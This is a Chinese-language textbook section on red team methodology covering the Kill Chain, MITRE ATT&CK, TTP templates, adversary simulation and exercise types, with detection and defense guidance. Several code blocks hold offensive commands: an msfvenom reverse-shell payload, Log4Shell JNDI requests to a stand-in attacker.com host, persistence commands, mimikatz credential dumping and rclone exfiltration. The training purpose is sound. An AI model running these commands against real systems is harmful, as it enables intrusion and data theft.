

# 12.2 红队方法论

## 概述

红队方法论为攻防演练提供系统化的理论框架与实践指导。本节围绕 Cyber Kill Chain（网络杀伤链）、MITRE ATT&CK 框架、TTP（战术、技术、程序）标准化描述、对抗性模拟以及红队演练类型五个核心主题展开，为红队演练的规划、执行与评估提供方法论支撑。

理解这些方法论的核心价值在于：将攻击者行为模式化、可复现化，从而使防御方能够系统性地评估检测覆盖度、验证响应能力、识别防御缺口。方法论本身不产生安全价值，其价值体现在指导演练设计、结构化输出成果、以及为蓝队提供可操作的改进依据。

---

## 方法论使用警示

**本节所述方法论仅限用于已获合法书面授权的内部演练：**

- 所有技术必须在交战规则（RoE）框架内使用
- 必须获得 CSO/CISO 和法务部门审批
- 严格遵守《网络安全法》《数据安全法》等法律法规
- 未经授权使用将承担法律责任

---

## 12.2.1 Cyber Kill Chain (网络杀伤链)

### 模型起源与适用边界

Cyber Kill Chain 由洛克希德·马丁公司于 2011 年提出，描述攻击者达成目标的七个阶段。该模型为防御方提供了系统化的安全建设框架，使防御措施能够按攻击阶段进行映射和评估。

适用边界：Kill Chain 模型适用于传统的外部攻击路径分析，对于内部威胁、供应链攻击、云原生环境等场景存在局限性。在这些场景中，攻击者可能直接跳过早期阶段（如侦察、武器化），需结合 ATT&CK 等更细粒度的框架进行补充。

关键约束：

- Kill Chain 是线性模型，实际攻击往往存在阶段跳跃和循环。
- 该模型侧重外部攻击者视角，对内部威胁的描述能力有限。
- 各阶段的检测难度和成本差异显著，需根据组织能力选择防御重点。

### 七阶段模型

| 阶段 | 英文名称              | 攻击者目标               | 防御重点                 |
| ---- | --------------------- | ------------------------ | ------------------------ |
| 1    | Reconnaissance        | 收集目标信息，绘制攻击面 | 减少暴露面、监控扫描行为 |
| 2    | Weaponization         | 将漏洞利用与恶意载荷结合 | 威胁情报、文件沙箱       |
| 3    | Delivery              | 将武器化载荷传递给目标   | 邮件过滤、用户培训       |
| 4    | Exploitation          | 触发漏洞，获得初始立足点 | 补丁管理、WAF/IPS        |
| 5    | Installation          | 在目标系统建立持久化     | 应用白名单、完整性监控   |
| 6    | Command and Control   | 建立与被控主机的通信信道 | 出站流量监控、DNS 分析   |
| 7    | Actions on Objectives | 执行最终攻击目标         | DLP、网络隔离、PAM       |

### 各阶段技术细节

#### 阶段 1：侦察（Reconnaissance）

攻击者活动：

被动侦察包括 OSINT（开源情报）、社交媒体分析、公开数据库查询；主动侦察包括端口扫描、服务枚举、漏洞探测。

**红队活动示例**（仅供授权演练使用）：

```bash
# 子域名枚举
amass enum -d target.com -passive

# 资产发现
subfinder -d target.com -all -recursive

# 技术栈识别
whatweb https://target.com

# IP/端口扫描
nmap -sV -O -p- target.com
```

防御措施：减少公开暴露面（子域名、员工信息）、部署蜜罐监控扫描行为、接入威胁情报服务。

检测指标：异常 DNS 查询量、扫描器特征（User-Agent、扫描模式）、蜜罐触发事件。

检测失败根因：侦察阶段检测本质困难——被动侦察不产生与目标的直接交互，主动侦察产生的流量特征与正常访问难以区分。常见失败原因包括：（1）未部署蜜罐或蜜罐覆盖不足，无法诱捕扫描行为；（2）WAF/IDS 未配置扫描器特征检测规则；（3）DNS 日志未采集或未关联分析，无法识别枚举行为。

#### 阶段 2：武器化（Weaponization）

攻击者活动：

生成恶意文档（Office 宏、PDF 漏洞利用）、开发定制化 payload、免杀处理（反病毒绕过）。

**红队活动示例**（仅供授权演练使用）：

```bash
# 生成钓鱼文档 (宏嵌入)
msfvenom -p windows/meterpreter/reverse_https \
  LHOST=attacker.com LPORT=443 \
  -f vba -o payload.vba

# 免杀处理
./scarecrow -I payload.bin -Loader dll -domain microsoft.com
```

防御措施：禁用宏和 ActiveX 等高危功能、部署文件沙箱检测、强化端点防护（EDR）。

检测指标：宏执行行为、可疑进程创建、文件熵值异常。

检测失败根因：武器化阶段发生在攻击者控制的环境中，防御方无法直接观测。依赖威胁情报的间接检测存在时效性问题。常见失败原因包括：（1）威胁情报订阅范围有限，未覆盖新兴恶意软件家族；（2）沙箱检测能力不足，无法识别延迟执行或环境感知型载荷；（3）EDR 签名库更新滞后于攻击者免杀技术迭代。

#### 阶段 3：投递（Delivery）

攻击者活动：

钓鱼邮件（携带恶意附件或链接）、水坑攻击（入侵目标常访问的网站）、USB 投放（物理接触投放恶意设备）、供应链攻击（通过第三方软件/服务传播）。

**红队活动示例**（仅供授权演练使用）：

```bash
# 钓鱼邮件发送
gophish server --config config.json

# 钓鱼页面克隆
setoolkit
# Social-Engineering Attacks > Website Attack Vectors > Credential Harvester
```

防御措施：邮件网关过滤（SPF、DKIM、DMARC）、链接沙箱检测、用户安全意识培训。

检测指标：邮件异常特征（发件人、附件类型）、可疑链接点击、USB 设备插入监控。

检测失败根因：投递阶段是防御的关键窗口，但攻击者可通过多种方式绕过检测。常见失败原因包括：（1）邮件网关沙箱对宏延迟执行（如检测虚拟机环境后休眠）缺乏有效检测；（2）DMARC 策略设置为 none 或 quarantine 而非 reject，钓鱼邮件仍可送达；（3）员工安全意识培训覆盖不足或内容过时，无法识别高仿真钓鱼；（4）供应链攻击通过可信渠道投递，完全绕过邮件网关检测。

#### 阶段 4：利用（Exploitation）

攻击者活动：

软件漏洞利用（0day、Nday）、凭证窃取（钓鱼、暴力破解）、社会工程（诱导用户执行）。

**红队活动示例**（仅供授权演练使用）：

```bash
# Web 应用漏洞利用
sqlmap -u "http://target.com/page?id=1" --batch --dump

# 凭证暴力破解
hydra -L users.txt -P pass.txt ssh://target.com

# Log4Shell 漏洞利用示例（CVE-2021-44228）
curl -H 'X-Api-Version: ${jndi:ldap://attacker.com/a}' http://target.com
```

防御措施：及时补丁管理、WAF/IPS 防护、最小权限原则。

检测指标：漏洞利用特征（Exploit Kit）、登录失败次数异常、进程注入行为。

检测失败根因：利用阶段的检测依赖对攻击行为特征的准确识别，但攻击者持续演进技术以绕过检测。常见失败原因包括：（1）WAF/IPS 规则未及时更新，无法检测新披露漏洞的利用尝试；（2）EDR 依赖 API Hook 进行行为检测，可被 Direct Syscall 技术绕过；（3）登录失败告警阈值设置过高，低频暴力破解未触发告警；（4）内存漏洞利用（如 ROP 链）不落盘，传统文件扫描无法检测。

#### 阶段 5：安装（Installation）

攻击者活动：

后门安装、权限维持机制、隐藏技术。

**红队活动示例**（仅供授权演练使用）：

```powershell
# 注册表持久化
REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\backdoor.exe"

# 计划任务
schtasks /create /sc onlogon /tn "WindowsUpdate" /tr "C:\backdoor.exe"
```

防御措施：监控自启动项、完整性校验、端点检测（EDR）。

检测指标：注册表修改、计划任务创建、可疑文件写入。

检测失败根因：安装阶段的持久化行为通常会留下可观测痕迹，但检测规则的完整性和准确性是关键挑战。常见失败原因包括：（1）Sysmon 配置未覆盖 Event ID 12/13/14（注册表操作），持久化行为无日志记录；（2）EDR 对 WMI 事件订阅等高级持久化技术检测能力不足；（3）计划任务检测规则误报率高，导致告警被抑制或忽略；（4）DLL 劫持利用合法程序加载路径，难以与正常行为区分。

#### 阶段 6：命令与控制（Command and Control）

攻击者活动：

HTTP/HTTPS 隧道、DNS 隧道、加密通信、域前置（Domain Fronting）。

**红队活动示例**（仅供授权演练使用）：

```bash
# Cobalt Strike C2
./teamserver <IP> <password> <malleable_profile>

# Sliver C2
sliver-server

# DNS 隧道
dnscat2-server example.com
```

防御措施：出站流量监控、DNS 异常检测、TLS 解密检测。

检测指标：异常网络连接（频率、目的地）、DNS 隧道特征（高熵值、长域名）、TLS 证书异常。

检测失败根因：C2 通信检测是攻防对抗的核心战场，攻击者持续开发隐匿技术以绕过检测。常见失败原因包括：（1）域前置技术使 C2 流量表面特征指向合法 CDN，传统 IP/域名黑名单失效；（2）Malleable C2 Profile 将通信伪装为正常业务流量（如 REST API），基于签名的检测失效；（3）TLS 1.3 加密使流量内容不可见，且 JA3 指纹可被定制绕过；（4）DNS over HTTPS（DoH）将 DNS 查询封装在 HTTPS 中，传统 DNS 监控无法观测。

#### 阶段 7：目标达成（Actions on Objectives）

攻击者活动：

数据窃取、横向移动、权限提升、破坏/勒索。

**红队活动示例**（仅供授权演练使用）：

```bash
# 横向移动
crackmapexec smb 192.168.1.0/24 -u admin -H <NTLM>

# 数据窃取
rclone copy /sensitive/ remote:exfil/

# 权限提升
mimikatz "privilege::debug" "sekurlsa::logonpasswords"
```

防御措施：数据丢失防护（DLP）、网络隔离、特权访问管理（PAM）。

检测指标：大量数据传输、异常账户活动、敏感文件访问。

检测失败根因：目标达成阶段是攻击者变现价值的最后窗口，检测失败意味着实际损失。常见失败原因包括：（1）DLP 规则未覆盖业务敏感数据分类，数据外泄未触发告警；（2）横向移动使用合法凭证和协议（如 SMB、WinRM），与正常管理行为难以区分；（3）UEBA 基线学习周期长，攻击者在基线建立前完成攻击；（4）特权账户监控仅关注登录行为，忽略登录后的异常操作（如批量文件访问）。

### 纵深防御映射

Kill Chain 为纵深防御提供框架，每个阶段都应部署预防、检测、响应三类控制措施。下表总结了各阶段的控制措施配置，选择这些维度的依据是：预防措施降低攻击成功概率，检测措施缩短攻击者驻留时间，响应措施限制攻击影响范围。

| 阶段     | 预防          | 检测              | 响应       |
| -------- | ------------- | ----------------- | ---------- |
| 侦察     | 减少暴露面    | 蜜罐/威胁情报     | 封禁扫描源 |
| 武器化   | N/A           | 威胁情报          | N/A        |
| 投递     | 邮件过滤/培训 | 异常附件/链接     | 隔离邮件   |
| 利用     | 补丁/WAF      | IPS/EDR           | 隔离主机   |
| 安装     | 应用白名单    | EDR/完整性监控    | 清除后门   |
| C2       | 出站限制      | 流量分析/DNS 监控 | 阻断 C2    |
| 目标达成 | DLP/隔离      | UEBA/异常检测     | 事件响应   |

常见误区：

1. 过度依赖早期阶段防御：侦察和武器化阶段的防御能力有限（攻击者在自己的环境中操作），应将防御重心放在投递及之后的阶段。
2. 忽视阶段间的关联检测：单一阶段的告警容易产生误报，跨阶段的行为关联能显著提升检测准确性。

验证方法：

- 使用红队演练验证各阶段检测规则的触发情况。
- 记录每个阶段的检测时间（MTTD），识别检测盲区。
- 通过紫队协作验证响应动作的有效性。

运行指标：

- 各阶段检测覆盖率（已覆盖技术数 / ATT&CK 映射技术总数）。
- 各阶段平均检测时间（MTTD）。
- 跨阶段关联告警占比。

---

## 12.2.2 MITRE ATT&CK 框架

### 框架概述

MITRE ATT&CK（Adversarial Tactics, Techniques, and Common Knowledge）是一个基于真实攻击观察构建的攻击技术知识库，涵盖 14 个战术（Tactics）、200+ 技术（Techniques）、600+ 子技术（Sub-techniques）。

三大矩阵：

- Enterprise：企业 IT 环境（Windows、Linux、macOS、云）。
- Mobile：移动设备（Android、iOS）。
- ICS：工控系统（SCADA、PLC）。

适用边界：ATT&CK 框架适用于检测规则开发、红队演练规划、威胁情报映射、检测覆盖度评估等场景。框架本身不提供防御措施的具体实现，需结合组织的技术栈和能力进行落地。

关键约束：

- ATT&CK 技术的检测难度差异显著，部分技术（如 Living off the Land）的检测依赖行为基线。
- 框架更新频率约为每年两次，需关注新增技术和子技术。
- 检测覆盖度评估需区分"能检测"与"有效检测"。

### 14 个战术概览

ATT&CK 将攻击行为划分为 14 个战术，每个战术代表攻击者在特定阶段的目标。以下按攻击生命周期顺序列出：

前期准备阶段：

1. Reconnaissance（侦察 - TA0043）：收集情报用于后续攻击。
2. Resource Development（资源开发 - TA0042）：建立支持后续攻击的资源。

攻击执行阶段：

3. Initial Access（初始访问 - TA0001）：获得目标网络的初始立足点。
4. Execution（执行 - TA0002）：在受害者系统执行恶意代码。
5. Persistence（持久化 - TA0003）：在系统重启、凭证变更后保持访问。
6. Privilege Escalation（权限提升 - TA0004）：获得更高权限。
7. Defense Evasion（防御规避 - TA0005）：避免被检测。
8. Credential Access（凭证访问 - TA0006）：窃取账户凭证。
9. Discovery（发现 - TA0007）：了解系统和内网环境。
10. Lateral Movement（横向移动 - TA0008）：在网络中移动到其他系统。
11. Collection（收集 - TA0009）：收集攻击目标相关的数据。
12. Command and Control（命令与控制 - TA0011）：与被攻陷系统通信。
13. Exfiltration（渗出 - TA0010）：窃取数据。
14. Impact（影响 - TA0040）：操纵、中断或破坏系统和数据。

### 关键战术技术详解

#### Initial Access（初始访问 - TA0001）

常见技术包括：

- T1078：有效账户。
- T1133：外部远程服务。
- T1190：利用面向公众的应用。
- T1195：供应链妥协。
- T1566：钓鱼。

**红队示例**（仅供授权演练使用）：

```bash
# T1566.001：钓鱼-附件
# 使用 GoPhish 发送带恶意宏的 Excel

# T1190：Web 应用漏洞利用
java -jar JNDIExploit.jar -i attacker.com -p 1389
curl 'http://target.com/search?q=${jndi:ldap://attacker.com:1389/Exploit}'

# T1133：VPN/堡垒机凭证暴力破解
hydra -L users.txt -P passwords.txt vpn.target.com rdp
```

#### Credential Access（凭证访问 - TA0006）

常见技术包括：

- T1110：暴力破解。
- T1003：OS 凭证转储（Mimikatz）。
- T1558：窃取或伪造 Kerberos 票据。
- T1555：密码存储中的凭证。

#### Lateral Movement（横向移动 - TA0008）

常见技术包括：

- T1021：远程服务（RDP、SSH、WinRM）。
- T1210：利用远程服务。
- T1550：使用替代身份验证材料。

### ATT&CK 应用场景

#### 场景 1：红队演练规划

基于 ATT&CK 框架设计演练剧本，确保演练覆盖关键技术。以下为金融机构 APT 攻击模拟示例：

```yaml
# 演练剧本示例：金融机构 APT 攻击模拟
name: "Financial APT Simulation"
threat_actor: "APT29 (Cozy Bear)"
objective: "窃取客户交易数据"

attack_flow:
  - 阶段: "Initial Access"
    tactics: [TA0001]
    techniques:
      - id: T1566.001
        name: "钓鱼-附件"
        target: "财务部门员工"
        payload: "恶意 Excel 宏"

  - 阶段: "Credential Access"
    tactics: [TA0006]
    techniques:
      - id: T1003.001
        name: "LSASS 内存转储"
        tool: "Mimikatz"

  - 阶段: "Lateral Movement"
    tactics: [TA0008]
    techniques:
      - id: T1021.001
        name: "RDP"
        target: "核心交易服务器"

  - 阶段: "Exfiltration"
    tactics: [TA0010]
    techniques:
      - id: T1041
        name: "C2 信道渗出"
        method: "HTTPS 加密传输"
```

#### 场景 2：检测覆盖度评估

将红队演练使用的 TTP 与 SIEM 检测规则进行比对，识别检测缺口：

```python
# 示例代码，仅供参考

# 红队演练使用的 TTP
red_team_ttps = [
    "T1566.001",  # 钓鱼-附件
    "T1059.001",  # PowerShell
    "T1547.001",  # 注册表持久化
    "T1003.001",  # LSASS 转储
    "T1021.001",  # RDP
    "T1005",      # 本地数据收集
    "T1041",      # C2 渗出
]

# SIEM 检测规则覆盖的 TTP
siem_coverage = [
    "T1566.001",  # 邮件附件检测
    "T1059.001",  # PowerShell 脚本块日志
    "T1547.001",  # 注册表监控
    # T1003.001 缺失
    "T1021.001",  # RDP 登录监控
    # T1005 缺失
    "T1041",      # 出站流量监控
]

# 计算检测覆盖率
coverage_rate = len(set(red_team_ttps) & set(siem_coverage)) / len(red_team_ttps)
missing_ttps = set(red_team_ttps) - set(siem_coverage)

# 输出：检测缺口 {'T1003.001', 'T1005'}
```

#### 场景 3：威胁情报映射

将外部威胁情报（如 APT 报告）映射到 ATT&CK，指导演练场景设计。以 APT29 为例：

- 关键技术：T1566.001（钓鱼附件）、T1059.001（PowerShell）、T1055（进程注入）、T1003（凭证转储）。
- 常用工具：Cobalt Strike、Mimikatz、BloodHound。
- C2 特征：HTTPS Beacon、域前置、云服务滥用。

常见误区：

1. 追求覆盖率而非检测有效性：覆盖 100 个技术但每个技术的检测规则误报率高，不如覆盖 50 个技术但检测精准。
2. 忽视子技术的差异：同一技术的不同子技术（如 T1059.001 PowerShell vs T1059.003 Windows Command Shell）检测方法差异显著。

验证方法：

- 使用 Atomic Red Team 或 MITRE CALDERA 执行单一技术测试。
- 记录每个技术的检测率、误报率、检测延迟。
- 定期更新检测规则以应对 ATT&CK 框架更新。

运行指标：

- ATT&CK 技术检测覆盖率（按战术分组统计）。
- 高优先级技术（根据威胁情报确定）的检测有效率。
- 检测规则的平均误报率。

---

## 12.2.3 红队 TTP（战术、技术、程序）

### TTP 定义与层次

TTP 是对攻击行为的三层描述：

- **Tactics（战术）**：攻击者的目标（为什么这样做）。
- **Techniques（技术）**：达成目标的方法（做什么）。
- **Procedures（程序）**：具体实施步骤（如何做）。

这三个层次从抽象到具体，战术相对稳定，技术随攻防对抗演进，程序则因工具和环境而异。

### TTP 标准化描述

标准化的 TTP 描述便于知识积累、复用和传承。以下为钓鱼攻击 TTP 的标准化模板：

```yaml
TTP_ID: RED-001
Name: "高管定向钓鱼攻击"

Tactic:
  ATT&CK: TA0001 (Initial Access)
  Objective: "获得高管终端访问权限"

Technique:
  ATT&CK: T1566.001 (Spearphishing Attachment)
  Method: "发送带恶意宏的 Office 文档"

Procedure:
  1. Reconnaissance:
     - OSINT 收集高管邮箱地址
     - LinkedIn 分析业务关系
     - 识别常用文档模板

  2. Weaponization:
     - 克隆企业文档模板
     - 嵌入 VBA 宏 (C2 Beacon)
     - 免杀处理

  3. Delivery:
     - 伪造 CEO 邮箱发送"紧急合同审批"
     - 附件："Q4_Contract_Review.docm"
     - 发送时间：周五下午 (防御松懈)

  4. Exploitation:
     - 目标打开文档并启用宏
     - 宏下载二阶段 Payload
     - 建立 C2 连接

Indicators:
  - Email Header: Spoofed From address
  - Attachment: .docm file with macros
  - Network: HTTPS beacon to C2 domain
  - Host: powershell.exe spawned by WINWORD.EXE

Detection:
  - Email Gateway: DMARC 检测伪造
  - Endpoint: 宏执行监控
  - Network: C2 Beacon 特征
  - SIEM: Process Tree 异常

Mitigation:
  - Block: .docm attachments
  - Disable: Office macros by default
  - Train: Phishing awareness
  - Implement: MFA for email access
```

### TTP 库管理

红队应建立并维护 TTP 知识库，支持演练规划和知识传承。推荐的目录结构如下：

```
red_team_ttps/
├── initial_access/
│   ├── phishing/
│   │   ├── RED-001-executive-spearphishing.yaml
│   │   ├── RED-002-mass-phishing.yaml
│   │   └── RED-003-smishing.yaml
│   ├── web_exploit/
│   │   ├── RED-010-sqli.yaml
│   │   └── RED-011-rce.yaml
│   └── supply_chain/
│       └── RED-020-dependency-confusion.yaml
├── lateral_movement/
│   ├── RED-100-rdp.yaml
│   └── RED-101-psexec.yaml
├── credential_access/
│   ├── RED-200-mimikatz.yaml
│   └── RED-201-kerberoasting.yaml
└── exfiltration/
    ├── RED-300-https-exfil.yaml
    └── RED-301-dns-tunneling.yaml
```

TTP 库管理要点：

- 使用版本控制（Git）管理 TTP 库。
- 每次演练后更新 TTP（免杀技术、检测绕过方法）。
- 标注 TTP 状态（有效、已失效、需更新）。
- 关联 ATT&CK ID 和 Atomic Red Team 测试用例。

常见误区：

1. TTP 描述过于抽象：缺少具体的工具、命令、参数，导致复用困难。
2. 忽视 TTP 时效性：检测能力提升后原有 TTP 可能失效，需定期验证和更新。

---

## 12.2.4 对抗性模拟（Adversary Simulation）

### 威胁行为者画像

对抗性模拟的核心是模拟特定威胁行为者（APT 组织、黑灰产团伙）的 TTP，验证针对性防御能力。构建威胁行为者画像是对抗性模拟的前提。

#### APT 组织画像示例

以 APT29（Cozy Bear）为例：

```yaml
Threat_Actor: APT29
Aliases: ["Cozy Bear", "The Dukes", "YTTRIUM"]
Attribution: 俄罗斯（归因基于公开威胁情报）
Sophistication: 高

Targets：
  - 政府机构
  - 智库
  - 医疗卫生
  - 能源行业

Tactics：
  - 钓鱼攻击（T1566）
  - 水坑攻击（T1189）
  - 供应链妥协（T1195）
  - Living off the Land（T1218）

Tools：
  - Cobalt Strike
  - Mimikatz
  - 定制恶意软件

C2_Infrastructure：
  - 被入侵的合法网站
  - 云服务滥用
  - 域前置

Evasion_Techniques：
  - 无文件恶意软件
  - 进程注入
  - 合法工具滥用
  - 加密 C2 流量
```

#### 黑灰产画像示例

以电商羊毛党为例：

```yaml
Threat_Actor: "电商羊毛党"
Sophistication: 中

Targets：
  - 电商平台
  - O2O 服务
  - 金融科技应用

Tactics：
  - 批量注册（养号）
  - 撞库攻击
  - 业务逻辑滥用
  - 自动化脚本攻击

Tools：
  - 设备农场
  - 代理池
  - 验证码识别（OCR）
  - 自动化脚本

Attack_Scenarios：
  - 秒杀抢购
  - 优惠券叠加
  - 邀请奖励滥用
  - 库存囤积

Evasion_Techniques：
  - 设备指纹伪造
  - IP 轮换
  - 行为模拟
  - 分布式攻击
```

### 场景化模拟设计

#### 场景 1：APT 攻击金融机构

目标：窃取客户交易数据

攻击链：钓鱼邮件（财务部）→ 宏执行（Beacon 上线）→ 凭证转储（Mimikatz）→ 横向移动（RDP 到核心网）→ 数据库访问 → 数据打包 → C2 渗出。

时间规划：

- Day 1：侦察与钓鱼。
- Day 2-3：立足与凭证收集。
- Day 4-7：横向移动与权限提升。
- Day 8-10：数据定位与收集。
- Day 11-14：数据外带。

检测验证点：钓鱼邮件检测、宏执行告警、LSASS 访问告警、异常 RDP 连接、数据库异常查询、大量数据传输。

#### 场景 2：黑灰产薅羊毛

目标：大促活动优惠券套利

攻击链：批量注册（养号）→ 设备伪装（IP 轮换）→ 抢券脚本（高并发）→ 组合下单（最大化优惠）→ 分散提现。

检测验证点：注册行为异常（高频、批量）、设备指纹重复/伪造、接口访问频率异常、优惠券核销异常、订单金额/数量异常。

常见误区：

1. 模拟场景脱离实际威胁：应基于威胁情报选择模拟对象，而非随意选择。
2. 忽视业务逻辑攻击：过度关注技术攻击，忽视业务层面的风险。

验证方法：

- 对抗性模拟前后对比检测能力变化。
- 记录蓝队的检测时间和响应动作。
- 评估模拟场景与真实威胁的匹配度。

---

## 12.2.5 红队演练类型



*图 12-5：红队演练完整生命周期——从规划、执行、报告到改进的端到端闭环流程*

### 类型 1：Full-Scope Red Team（全方位红队演练）

定义：模拟真实攻击者，从外部侦察到最终目标达成的全链路演练。

特点：

- 蓝队不知情（隐蔽性高）。
- 周期长（数周至数月）。
- 范围广（技术、业务、人员、物理）。
- 目标明确（综合验证防御能力）。

适用场景：年度安全评估、合规审计（TIBER-EU、CBEST）、重大系统上线前、并购尽调。

执行流程：

1. 规划阶段（2-4 周）：签署 RoE、情报收集、攻击链设计、基础设施搭建。
2. 执行阶段（4-8 周）：外部侦察、初始访问、内网渗透、目标达成。
3. 报告阶段（1-2 周）：证据整理、报告编写、管理层汇报。

交付物：技术报告、管理层报告、攻击链时间线、检测缺口分析、整改建议。

### 类型 2：Assumed Breach（假定突破）

定义：假定攻击者已突破外部防线，直接从内网开始演练。

特点：

- 起点为内网普通用户权限。
- 周期中等（2-4 周）。
- 重点验证内网检测与响应能力。

适用场景：内网安全评估、SOC 能力验证、AD 域安全测试、零信任架构验证。

执行流程：

1. 初始状态：提供普通域用户账号或已失陷主机访问。
2. 目标：权限提升（Domain Admin）、横向移动（关键服务器）、数据访问（敏感数据库）。
3. 关注点：检测能力（MTTD）、响应能力（MTTR）、横向移动防御、特权访问控制。

交付物：内网渗透报告、检测能力评估、AD 域加固建议、PAM 改进建议。

### 类型 3：Tabletop Exercise（桌面推演）

定义：基于假定场景的讨论式演练，无实际攻击行动。

特点：

- 形式为会议讨论。
- 周期短（半天至 1 天）。
- 参与者包括红队、蓝队、业务、管理层。
- 目标是验证流程与协调机制。

适用场景：新流程验证、跨团队协调测试、管理层培训、合规演练。

执行流程：

1. 场景设计：选择威胁场景（如勒索软件）、准备剧本、设计决策点。
2. 推演执行：主持人描述场景、参与者讨论应对、记录决策与行动、识别流程缺口。
3. 复盘总结：流程改进建议、职责澄清、沟通机制优化。

交付物：推演记录、流程缺口清单、改进行动计划。

### 类型 4：Purple Team Exercise（紫队演练）

定义：红蓝公开协作，验证检测与响应能力。

特点：

- 透明协作（红蓝互知）。
- 实时反馈。
- 重点是检测规则优化。

适用场景：SOC 能力提升、检测工程优化、新工具上线验证、人员培训。

执行流程：

1. TTP 选择：基于 ATT&CK 选择技术、确定检测目标。
2. 执行与反馈：红队执行 TTP、蓝队验证检测、实时讨论改进。
3. 规则优化：调整检测阈值、补充遗漏规则、降低误报。

交付物：检测覆盖度报告、优化后的检测规则、知识转移文档。

### 类型对比与选择

下表从六个维度对比四种演练类型，帮助组织根据自身情况选择合适的演练方式：

| 维度     | Full-Scope  | Assumed Breach | Tabletop  | Purple Team |
| -------- | ----------- | -------------- | --------- | ----------- |
| 隐蔽性   | 高          | 中             | 无        | 无          |
| 周期     | 长 (4-8 周) | 中 (2-4 周)    | 短 (1 天) | 短 (1-2 周) |
| 范围     | 全面        | 内网           | 理论      | 检测重点    |
| 成本     | 高          | 中             | 低        | 中          |
| 蓝队知情 | 否          | 否             | 是        | 是          |
| 适合阶段 | 成熟期      | 成长期         | 起步期    | 全阶段      |

选择建议：

- 安全能力起步阶段：从 Tabletop 和 Purple Team 开始，建立基础流程和检测能力。
- 安全能力成长阶段：引入 Assumed Breach，验证内网防御深度。
- 安全能力成熟阶段：开展 Full-Scope Red Team，综合验证防御体系。

常见误区：

1. 跳过基础直接做 Full-Scope：检测能力不足时 Full-Scope 演练价值有限，攻击者轻松达成目标但无法产生有效的检测改进。
2. 忽视紫队协作的价值：Purple Team 是投入产出比最高的演练类型，应作为常态化活动。

验证方法：

- 演练后评估检测覆盖度变化。
- 跟踪整改建议的落地率。
- 对比演练前后的关键指标（MTTD、MTTR）。

运行指标：

- 年度演练次数（按类型分组）。
- 演练发现的检测缺口数量。
- 整改建议落地率。
- 演练后检测能力提升幅度。

---

## 本节小结

本节阐述了红队方法论的五个核心组成部分：

1. Cyber Kill Chain：七阶段模型为纵深防御提供框架，各阶段应配置预防、检测、响应三类控制措施。
2. MITRE ATT&CK：14 个战术、200+ 技术的知识库，是红队演练规划和检测覆盖度评估的标准语言。
3. TTP 标准化：战术、技术、程序的三层描述，支持知识积累和复用。
4. 对抗性模拟：基于威胁行为者画像的场景化模拟，验证针对性防御能力。
5. 演练类型：Full-Scope、Assumed Breach、Tabletop、Purple Team 四种类型各有适用场景。

方法论的价值在于为红队实践提供系统化指导，但最终效果取决于落地执行。组织应根据自身安全成熟度选择合适的方法论和演练类型，并建立持续改进机制。

---

## 参考资料

1. Lockheed Martin Cyber Kill Chain: https://www.lockheedmartin.com/cyber-kill-chain
2. MITRE ATT&CK: https://attack.mitre.org/
3. MITRE ATT&CK for ICS: https://collaborate.mitre.org/attackics/
4. Atomic Red Team: https://github.com/redcanaryco/atomic-red-team
5. MITRE CALDERA: https://caldera.mitre.org/

---

## 导航

**[← 上一节：12.1 战略与组织](./12.1-strategy-organization.md)** | **[返回章节目录](./README.md)** | **[下一节：12.3 工具与技术 →](./12.3-tools-techniques.md)**

---

**© 2025 AI-ESA Project. Licensed under CC BY-NC-SA 4.0**
